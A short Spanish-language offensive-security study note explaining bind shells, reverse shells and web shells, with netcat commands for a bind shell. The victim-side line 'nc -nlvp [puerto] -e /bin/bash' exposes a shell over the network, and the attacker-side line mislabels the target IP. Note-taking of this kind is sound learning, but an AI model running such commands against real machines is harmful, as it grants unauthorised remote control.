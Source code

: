 Parte de [[Explotación]]

En temas de seguridad ofensiva, se contemplan dos tipos de Shell:
- Bind Shell: El atacante inicia la conexion
- Reverse Shell: La victima inicia la conexion

(Ver adquisicion de shells con distintos metodos: InternalAllTheThings)

---
## Bind shell con netcat:

El servidor esta escuchando, el servidor inicia la conexion.

En la victima: 

``` bash
nc -nlvp [puerto] -e /bin/bash
```

En el equipo atacante:

``` bash
nc -nv [ipAtacante] [puerto]
```

---
## Reverse shells con netcat:

Especialmente util ya que la mayoria de bind shells no funcionara por los firewalls. Consiste en iniciar la escucha en la maquina y crear la peticion de conexion desde la victima.

---
## WebShells

Una linea de comandos escrita en un lenguaje de programacion concreto e interpretado por un servidor web.

Se pueden subir mediante FTP, formularios, el metodo PUT de HTTP ...

